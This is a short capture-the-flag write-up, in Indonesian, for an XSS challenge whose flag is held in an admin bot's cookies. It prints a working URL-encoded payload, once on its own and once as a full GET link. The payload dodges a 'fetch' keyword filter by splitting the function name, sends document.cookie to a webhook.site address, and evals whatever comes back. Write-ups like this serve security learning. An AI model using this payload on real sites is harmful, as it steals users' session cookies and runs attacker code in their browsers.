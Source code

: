 # Challenge Name: No Fetch?!?!

![Category: Website](https://img.shields.io/badge/Category-challenge-lightgrey.svg)
![Point: 20](https://img.shields.io/badge/Score-20-brightgreen.svg)

## Description

The easest XSS ever! But wait... no fetch? Visit the challenge at http://ao.bliu.tech:9090.

The admin bot for this challenge is at https://admin-bot.acmcyber.com/no-fetch. The flag is in the admin bot's cookies.

## Attached Files

\-

## Solution

disini website tersebut dijelaskan di deskripsi adalah XSS, kita harus mendapatkan cookie tersebut dengan fetch tapi kita tidak boleh memakai fetch

![image1](https://cdn.discordapp.com/attachments/1080821742722883684/1080830828180934757/Screen_Shot_2023-03-02_at_19.35.36.png)

kita melakukan bypass fetch dengan payload

```
<img+src%3D"x"+onerror%3D"top%5B%60fet%60%2B%60ch%60%5D%28%27https%3A%2F%2Fwebhook.site%2F7efc8b25-6507-43e7-a16a-54236fb0bd58%3Fcookie%3D%27%2Bdocument.cookie%2C+%7Bcredentials%3A+%27include%27%7D%29.then%28response+%3D>response.text%28%29%29.then%28%28body%29+%3D>%7Btop%5B%60ev%60%2B%60al%60%5D%28body%29%3B%7D%29">%0D%0A
```

ternyata website tersebut dengan request POST di website bot mintanya id Post teresbut, setelah di bantu oleh mas [Dimas](https://github.com/dimasma0305).
bisa mengguakan request GET

```
http://ao.bliu.tech:9090/post?content=%3Cimg+src%3D%22x%22+onerror%3D%22top%5B%60fet%60%2B%60ch%60%5D%28%27https%3A%2F%2Fwebhook.site%2F7efc8b25-6507-43e7-a16a-54236fb0bd58%3Fcookie%3D%27%2Bdocument.cookie%2C+%7Bcredentials%3A+%27include%27%7D%29.then%28response+%3D%3Eresponse.text%28%29%29.then%28%28body%29+%3D%3E%7Btop%5B%60ev%60%2B%60al%60%5D%28body%29%3B%7D%29%22%3E%0D%0A
```

setelah dikirim di web botnya akan mendapatkan flag tersebut

![image2](https://cdn.discordapp.com/attachments/1080821742722883684/1080833122200993823/Screen_Shot_2023-03-02_at_19.44.36.png)

---

[Back to home](/2023/After%20Dark%20Winter/)
